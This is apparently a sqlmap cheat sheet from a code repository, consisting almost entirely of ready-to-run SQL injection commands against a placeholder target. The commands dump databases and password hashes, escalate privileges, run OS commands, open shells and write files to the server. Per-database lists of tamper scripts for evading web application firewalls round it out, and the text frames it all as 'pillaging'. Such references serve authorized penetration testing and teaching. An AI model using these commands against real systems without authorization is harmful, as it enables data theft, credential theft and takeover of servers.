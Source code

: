 # SQLMapCheatsheet

## Command
- Target the http://target.server.com URL using the “-u” flag:
    ```
    sqlmap -u 'http://target.server.com'
    ```

- Specify POST requests by specifying the “–data” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah'
    ```

- Target a vulnerable parameter in an authenticated session by specifying cookies using the “–cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx'
    ```

- Drop all Set-Cookie requests from the target web server using the “–drop-set-cookie” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --drop-set-cookie
    ```
- Perform in-depth and risky attacks using the “–level” and “–risk” flags:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah' --level=5 --risk=3
    ```
- Specify which POST or GET parameter to target using the “-p” flag:
    ```
    sqlmap -u 'http://target.server.com' --data='param1=blah&param2=blah' -p param1
    ```
- Choose a random User-Agent request header using the “–random-agent” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --random-agent
    ```
- Target a certain database service using the “–dbms” flag:
    ```
    sqlmap -u 'http://target.server.com' -r req.txt --dbms Oracle
    ```
- Read a request (stored via Burpsuite) target the user parameter (and no other parameters), run risky queries, and dump users and passwords:
    ```
    sqlmap -r ./req.txt -p user --level=1 --risk=3 --passwords
    ```
- Attempt privilege escalation on the target database
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --privesc
    ```
- Run the “whoami” command on the target server.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --os-cmd=whoami
    ```
- Dump everything in the database, but wait one second in-between requests.
    ```
    sqlmap -r ./req.txt --level=1 --risk=3 --dump --delay=1
    ```
- Here are some useful options for your pillaging pleasure:
    ```
    -r req.txt Specify a request stored in a text file, great for saved requests from BurpSuite.
    –force-ssl Force SQLmap to use SSL or TLS for its requests.
    –level=1 only test against the specified parameter, ignore all others.
    –risk=3 Run all exploit attempts, even the dangerous ones (could damage database).
    –delay Set a delay in-between requests, great for throttled connections.
    –proxy Set to http://127.0.0.1:8080 to pipe requests through BurpSuite for inspection.
    –privesc Attempt to elevate the privileges of the database service account.
    –all Enumerate everything inside the target database.
    –hostname Print the target database’s hostname.
    –passwords Find and exfiltrate all users and their password hashes or digests.
    –dbs Enumerate all databases accessible via the target webserver.
    –comments Enumerate all found comments inside the database.
    –sql-shell Return a SQL prompt for interaction.
    –os-cmd Attempt to execute a system command.
    –os-shell Attempt to return a command prompt or terminal for interaction.
    –reg-read Read the specified Windows registry key value.
    –file-write Specify a local file to be written to the target server.
    –file-dest Specify the remote destination to write a file to.
    –technique Specify a letter or letters of BEUSTQ to control the exploit attempts:
        B: Boolean-based blind
        E: Error-based
        U: Union query-based
        S: Stacked queries
        T: Time-based blind
        Q: Inline queries
    ```


## Tamper
- **All scripts**
  ```
          --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **General scripts**
  ```
  --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **Microsoft access**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
  ```

- **Microsoft SQL Server**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
  ```

- **MySQL**
  ```
  --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
  ```

- **Oracle**
  ```
  --tamper=between,charencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **PostgreSQL**
  ```
  --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,xforwardedfor
  ```

- **SAP MaxDB**
  ```
  --tamper=ifnull2ifisnull,nonrecursivereplacement,randomcase,securesphere,space2comment,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```

- **SQLite**
  ```
  --tamper=ifnull2ifisnull,multiplespaces,nonrecursivereplacement,randomcase,securesphere,space2comment,space2dash,space2plus,unionalltounion,unmagicquotes,xforwardedfor
  ```
